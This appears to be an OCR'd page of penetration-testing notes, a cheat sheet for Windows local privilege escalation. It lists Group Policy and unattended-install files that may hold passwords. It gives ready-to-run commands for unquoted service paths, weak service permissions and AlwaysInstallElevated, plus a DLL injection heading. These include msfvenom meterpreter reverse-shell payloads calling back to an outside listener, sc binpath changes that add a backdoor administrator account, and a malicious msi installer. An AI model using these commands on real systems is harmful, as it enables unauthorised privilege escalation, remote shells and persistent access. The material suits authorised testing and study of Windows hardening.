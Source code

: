  
Policy files (may contain passwords)
SYSVOL/(../)Groups.xml
Services\Services.xml: Element-Specific Attributes
ScheduledTasks\ScheduledTasks.xml: Task Inner Element, TaskV2 Inner Element, ImmediateTaskV2 Inner Element
Printers\Printers.xml: SharedPrinter Element
Drives\Drives.xml: Element-Specific Attributes
DataSources\DataSources.xml: Element-Specific Attributes
 
 
Configuration files commonly left behind by mass rollouts/older (pre-)devops
c:\sysprep.inf
c:\sysprep\sysprep.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml
 
Trusted Service Paths
    exploit/windows/local/trusted_service_path
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
icacls "C:\Program Files (x86)\Target"
msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=10.0.0.100 LPORT=443 -f exe -o target.exe
    -now replace Target\target.exe with payload
sc stop target
sc start target
    -now the reverse shell should be spawned as privileged user
 
Vulnerable Services
    exploit/windows/local/service_permissions
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
sc qc target
sc config target binpath= "net user hacker P@ssword123! /add"
sc stop target
sc start target
sc config target binpath= "net localgroup Administrators hacker /add"
sc stop target
sc start target
    -errors may occur starting service, but only after commands are executed
 
AlwaysInstallElevated
    exploit/windows/local/always_install_elevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o exploit.msi
msiexec /quiet /qn /i C:\Users\User\Downloads\exploit.msi
 
DLL Injection
msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=10.0.0.100 LPORT=443 -f exe -o target.exe
 



